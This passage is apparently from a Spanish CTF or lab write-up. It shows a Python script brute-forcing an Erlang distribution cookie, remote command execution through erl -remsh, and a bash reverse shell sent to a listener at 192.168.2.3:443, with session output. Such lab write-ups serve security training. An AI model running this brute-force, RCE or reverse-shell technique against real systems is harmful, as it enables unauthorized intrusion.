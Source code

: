 ```python
        for line in file:
            password = line.strip()
            if check_cookie(password):
                print("[+] Authentication Cookie found: %s" % password)
                found = True
                sys.exit(0)
    if Found != True:
        print("[-] Authentication Cookie not found")

if __name__ == "__main__":
    brute()
```

El comando que se ejecuta nos devuelve un código de estado `0` si el comando es exitoso, en este caso nos devuelve el nombre del nodo con su dominio.
En caso contrario, nos devuelve un código de estado `1` y nos devolvería un error. Con esta simple comprobación podemos hacer el script para hacer fuerza bruta.

Y tenemos suerte y encontramos la cookie de autenticación a este nodo.
```console
python3 brute.py
[+] Authentication Cookie found: poohbear
```

# Erlang Cookie RCE
Y siguiendo el artículo en HackTricks conseguimos ejecución remota de comandos como el usuario `killer`
```console
erl -setcookie poohbear -remsh n0d3@megalang
Erlang/OTP 25 [erts-13.2.2.9] [source] [64-bit] [smp:32:4] [ds:32:4:10] [async-threads:1] [jit:ns]

Eshell V11.1.8  (abort with ^G)
(n0d3@megalang)1> os:cmd("id").
"uid=1000(killer) gid=1000(killer) grupos=1000(killer)\n"
```

Entonces ahora podemos ponernos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Y enviarnos una reverse shell utilizando el método anterior para ejecutar comandos.
```console
erl -setcookie poohbear -remsh n0d3@megalang
Erlang/OTP 25 [erts-13.2.2.9] [source] [64-bit] [smp:32:4] [ds:32:4:10] [async-threads:1] [jit:ns]

Eshell V11.1.8  (abort with ^G)
(n0d3@megalang)1> os:cmd("bash -c 'bash -i >& /dev/tcp/192.168.2.3/443 0>&1'")
```

Y ganamos una consola interactiva en el nodo que es la máquina anfitriona, es decir, no estamos en ningún contenedor ni nada.
```console
(remote) killer@lang:/home/killer$ id
uid=1000(killer) gid=1000(killer) grupos=1000(killer)
(remote) killer@lang:/home/killer$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:5e:fb:bb brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.7/24 brd 192.168.2.255 scope global dynamic enp0s3
```